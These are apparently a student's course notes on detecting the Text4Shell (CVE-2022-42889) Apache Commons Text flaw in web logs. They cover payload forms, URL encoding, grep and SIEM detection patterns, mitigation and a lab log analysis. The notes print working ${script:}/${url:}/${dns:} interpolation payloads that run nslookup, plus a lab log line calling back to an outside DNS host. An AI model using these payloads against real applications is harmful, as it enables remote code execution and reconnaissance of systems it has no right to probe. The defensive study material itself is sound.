


# Section 6: Detecting Text4Shell Attack

> Part of my **Web Attack Detection and Analysis** course notes. See the [README](README.md) for all sections.

## Overview

This section covers **Text4Shell (CVE-2022-42889)**, a critical vulnerability in the **Apache Commons Text** library. It focuses on how the attack works, how it differs from Log4Shell, how to recognize it in web server logs (the `script`, `url` and `dns` lookups), how to write detection rules, and how to mitigate it.

| # | Topic |
|---|-------|
| 1 | What Text4Shell is and how it works |
| 2 | Payloads, callbacks and encoding |
| 3 | Detection rules and grep |
| 4 | Mitigation |

---

## 1. What is Text4Shell?

- **Apache Commons Text** is a widely used Java library for string operations — substitution, lookups, matching, and similar helpers.
- **Text4Shell** is a vulnerability in that library (disclosed **October 13, 2022**, **CVE-2022-42889**, reported by Álvaro Muñoz of GitHub Security Lab) that can lead to **remote code execution**.
- **CVSS score: 9.8** (Critical).
- Like Log4Shell, it isn't a program you attack directly. It's a flaw in a **library feature** — variable interpolation — so any application that passes **attacker-controlled text** into `StringSubstitutor` with the default configuration can be exposed.
- **Affected versions:** Apache Commons Text **1.5 through 1.9** (inclusive). Fixed in **1.10.0**.

**Impact of successful exploitation:** remote code execution, command execution with the application's privileges, data theft, and follow-on attacks (reverse shells, lateral movement).

> **Not as easy to hit as Log4Shell.** Both are named "4Shell," but Log4j logged untrusted input almost everywhere, so payloads landed naturally. Text4Shell only fires when an app feeds attacker input **directly into `StringSubstitutor`** with the default interpolators — far less common. Treat a match as serious, but most apps that merely bundle Commons Text aren't exploitable through it.

---

## 2. How the attack works

Commons Text supports **string interpolation**: expressions in the form `${prefix:name}` are replaced with a value at runtime by the `StringSubstitutor` class. In vulnerable versions, the **default interpolators** included three dangerous lookups:

| Lookup | What it does | Why it's dangerous |
|---|---|---|
| `script` | Evaluates a script via the JVM script engine | Direct **code execution** (`java.lang.Runtime.getRuntime().exec(...)`) |
| `url` | Fetches content from a URL | Outbound request / SSRF-style callback |
| `dns` | Resolves a hostname | Outbound **DNS callback** (out-of-band confirmation) |

**Attack flow**
1. The attacker sends a request where a parameter carries a payload such as `${script:javascript:java.lang.Runtime.getRuntime().exec('...')}`.
2. The vulnerable application passes that value into `StringSubstitutor`, which **interpolates** it.
3. The `script:` lookup **runs the embedded code**, or the `dns:` / `url:` lookup makes the server **connect out** to an attacker-controlled host.
4. The attacker gets code execution, or at minimum an **out-of-band callback** confirming the target is vulnerable.

> The `script:` vector relies on a JVM script engine (Nashorn), which was **removed in JDK 15+**, so `script:` payloads often fail on newer runtimes. The `url:` and `dns:` vectors still work — which is why the attacker in the lab tried all three.

**Where payloads appear:** any input fed into interpolation — most commonly a **URL parameter** (as in this lab), but also POST data or headers.

---

## 3. Payloads, callbacks and encoding

### The three payload styles (all seen in the lab)
```
${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup <callback-domain>')}
${url:UTF-8:java.lang.Runtime.getRuntime().exec('nslookup <callback-domain>')}
${dns:address:java.lang.Runtime.getRuntime().exec('nslookup <callback-domain>')}
```
- `script:` → tries to execute code directly.
- `dns:` / `url:` → force a lookup/connection to a domain the attacker controls.

### Out-of-band (callback) probes
As with Log4Shell, attackers confirm a hit by making the server **resolve a domain they control** (here via an embedded `nslookup`). If the attacker's DNS logs show the query, the target processed the payload. A **unique subdomain per request** tells them which target called back. Common callback services: interactsh, Burp Collaborator, dnslog, Canarytokens, and (in this lab) **messwithdns.com**.

### Encoding
Payloads are usually **URL-encoded** so a plain text search misses them:

| Encoded | Decodes to |
|---|---|
| `%24` | `$` |
| `%7b` / `%7d` | `{` / `}` |
| `%3a` | `:` |
| `%2e` | `.` |
| `%20` | space |
| `%28` / `%29` | `(` / `)` |
| `%27` | `'` |

In the lab the encoding varied line to line — some requests encoded only the braces (`$%7bscript...`), others were **fully encoded** (`%24%7bdns%3a...`). Always decode before judging, and search case-insensitively.

---

## 4. Detecting Text4Shell

### Key indicators
- The interpolation pattern **`${script:`**, **`${url:`** or **`${dns:`** in any request field (URL, parameters, POST data, headers).
- The string **`java.lang.Runtime.getRuntime`** or **`.exec(`** in request data — normal users never send this.
- Encoded forms: `%24%7bscript`, `%24%7burl`, `%24%7bdns`, `$%7bscript`, etc.
- **Unusual outbound DNS or HTTP connections** from the server to unknown domains, especially random-looking subdomains.
- Repeated requests from one IP cycling through `script` / `url` / `dns` variants (automated tooling).

### SIEM / WAF detection rule
The course suggests searching logs for these patterns (any match = potential Text4Shell attempt):

```
${script:    ${url:    ${dns:    script ... java.lang.Runtime.getRuntime
```

### Searching nginx logs with grep
Cleaner commands than one giant regex (use `-i` for case-insensitivity, and match both decoded and encoded forms):

```bash
# 1. Plain payloads (the three interpolators)
grep -iE '\$\{(script|url|dns):' access.log

# 2. The code-execution marker
grep -iE 'java\.lang\.Runtime\.getRuntime|\.exec\(' access.log

# 3. URL-encoded payloads
grep -iE '%24%7b(script|url|dns)|\$%7b(script|url|dns)' access.log

# 4. Broad search (decoded OR encoded) — review for false positives
grep -iE '\$\{(script|url|dns):|%24%7b(script|url|dns)|Runtime%2egetRuntime' access.log

# 5. Which IPs are sending them?
grep -iE '\$\{(script|url|dns):|%24%7b(script|url|dns)' access.log \
  | awk '{print $1}' | sort | uniq -c | sort -rn
```

> **Note:** the broad search can throw false positives (`url` / `dns` are common words), so confirm the full `${...}` structure. And a WAF or log match finds the **attempt** — it doesn't prove the server was exploited.

### Example nginx log entry (from the lab)
```
234.180.146.216 - - [11/Jul/2023:23:01:29 +0000] "GET /hello.php?name=${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup emerald170.messwithdns.com')} HTTP/1.1" 200 2984 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ... Chrome/114.0.5735.199 Safari/537.36"
```
- A GET request to `/hello.php` with the payload in the **`name`** parameter.
- The payload uses the `script:` lookup to run `nslookup` against **`emerald170.messwithdns.com`** — an out-of-band callback.
- It is a **Text4Shell attempt** and an out-of-band confirmation channel.

### Did the attack succeed?
The access log shows the **attempt**, not whether the lookup ran. To judge success, also check:
- **DNS / resolver logs** for queries from the web server to the callback domain
- **Firewall / egress logs** for outbound connections from the server
- **Endpoint logs** for new processes spawned by the Java app (e.g. `nslookup`, `sh`, `nc`)
- Whether the runtime is **JDK 15+** (then the `script:` vector likely failed, though `dns:` / `url:` still resolve)

A `200` response doesn't prove success or failure on its own.

---

## 5. Mitigation

For Text4Shell:
- **Upgrade Apache Commons Text to 1.10.0 or later** — the fix removes the `script`, `dns` and `url` lookups from the default interpolator.
- If you can't upgrade immediately, **configure `StringSubstitutor` with a safe lookup map** so those interpolators aren't available.
- **Never pass untrusted input straight into interpolation.** Validate and sanitize anything that reaches `StringSubstitutor`.
- Find **every** place Commons Text is used, including **transitive dependencies** (use an inventory or an SBOM).
- **Restrict outbound traffic** from servers (egress filtering) so a `dns:` / `url:` lookup can't reach an attacker.
- Add **WAF / IDS rules** for the indicators above, and monitor logs and DNS.
- Run applications with **least privilege**.

---

## 6. Lab: Text4Shell log analysis

**Environment:** a Linux VM with one nginx `access.log` at `/root/Desktop/QuestionFiles/access.log`. It's a large file where the first part is ordinary traffic and the attack requests appear further down (around line 26,515+).

**Tasks**

- Identify the **attacker's IP address**.



- Identify the **DNS server (callback domain)** the attacker tried to reach.



- Identify the **vulnerable parameter**.


**How I approached it**
- Opened the log and searched for `script`, `dns` and `${`, which surfaced the payload lines.
- Decoded the URL-encoded payloads (`%7b` → `{`, `%3a` → `:`, etc.) to read the full `${...}` expression.
- Read off the callback domain (after `nslookup`) and the parameter carrying the payload.

**Observations**
- The attacker sent the same attack **three ways** from the same IP — `${script:...}`, `${url:...}` and `${dns:...}` — all calling `nslookup emerald170.messwithdns.com`. Cycling through all three interpolators is a strong sign of **automated Text4Shell tooling** hedging against JDK/engine differences.
- **Encoding varied** between requests: some encoded only the braces, one was fully URL-encoded (`%24%7bdns%3a...`). A plain search for `${dns:` would miss the fully-encoded line — decode first.
- All the attack requests returned **`200`**, so the status code alone doesn't confirm exploitation — the DNS callback logs would.

---

## Key takeaways

- Text4Shell is **`${prefix:name}` interpolation in Apache Commons Text** reaching untrusted input, with `script` / `url` / `dns` as the dangerous default lookups.
- The signature to hunt for is **`${script:`, `${url:`, `${dns:`** plus `java.lang.Runtime.getRuntime` — decoded **and** URL-encoded.
- It's named after Log4Shell but is **much harder to exploit**: it needs the app to feed attacker input directly into `StringSubstitutor`.
- A log match is an **attempt**. Confirm with **DNS and egress logs**, and check the JDK version for the `script:` vector.
- The fix is **upgrading to Commons Text 1.10.0** and not interpolating untrusted input.
- Cross-check course material: the course text had a **CVE typo** (`42899` in one spot; the correct ID is `42889`) — worth verifying identifiers against NVD.

## Skills practised

Recognizing interpolation-based RCE payloads in web logs, decoding URL-encoded strings, distinguishing the `script` / `url` / `dns` lookup vectors, building grep and SIEM detection patterns, identifying the vulnerable parameter and callback infrastructure, judging attempt vs success, comparing related CVEs, and vulnerability mitigation planning.

---

*Previous: [Section 5: Detecting Log4Shell Attack](05-detecting-log4shell-attack.md) | Back to [README](README.md)*
